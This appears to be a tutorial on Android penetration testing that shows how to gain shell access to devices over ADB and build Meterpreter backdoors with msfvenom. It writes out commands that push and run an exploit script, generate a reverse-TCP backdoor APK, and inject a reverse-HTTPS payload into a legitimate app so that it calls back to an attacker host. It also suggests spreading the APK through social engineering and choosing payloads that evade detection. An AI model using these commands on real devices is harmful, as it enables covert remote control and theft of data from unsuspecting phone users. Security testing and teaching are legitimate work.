 Mobile penetration testing is an essential domain in cybersecurity, enabling security professionals to identify vulnerabilities within mobile applications and devices. With the increasing use of smartphones for sensitive transactions, ensuring mobile security is paramount. This guide delves into advanced penetration testing methodologies, focusing on Android exploitation using the Android Debug Bridge (ADB), Metasploit Framework, and various persistence mechanisms.

## 1. **Understanding Android Debug Bridge (ADB)**

ADB is a command-line tool that facilitates communication between a computer and an Android device. It is commonly used for debugging, installing applications, and gaining shell access. ADB operates over both USB and network connections, making it a powerful tool for mobile penetration testers.

### **Connecting to a Target Device**
```sh
adb devices  # List connected devices
adb connect 192.168.170.101:5555  # Connect to a remote device via network
```
After executing these commands, the attacker can establish a connection to the device and perform remote operations.

## 2. **Gaining Shell Access via ADB**
```sh
adb shell  # Open a shell on the device
adb push exploit.sh /data/local/tmp/  # Upload an exploit script
adb shell chmod +x /data/local/tmp/exploit.sh  # Grant execution permissions
adb shell /data/local/tmp/exploit.sh  # Execute the exploit
```
- This technique allows remote execution of scripts, leading to potential privilege escalation.

## 3. **Crafting a Malicious Android Payload**

One of the most effective techniques for mobile penetration testing involves generating a malicious APK (Android Package) that provides the attacker with a Meterpreter shell. This allows remote control of the target device.

### **Generating a Standalone APK with msfvenom**
```sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -o backdoor.apk
```
- The `android/meterpreter/reverse_tcp` payload is used to create a backdoor.
- The attacker's machine IP (`LHOST`) and the desired listening port (`LPORT`) must be specified.
- The resulting APK file can be shared via social engineering techniques.

## 4. **Injecting a Payload into a Legitimate Application**

Instead of deploying a standalone malicious APK, attackers can embed a payload within an existing legitimate application. This makes detection significantly more difficult.
```sh
msfvenom -x original.apk -p android/meterpreter/reverse_https \
LHOST=192.168.130.129 LPORT=443 \
-o infected_app.apk
```
- The `-x` flag allows embedding within an existing APK.
- HTTPS payloads (`reverse_https`) provide encrypted communication, reducing the likelihood of detection by security solutions.
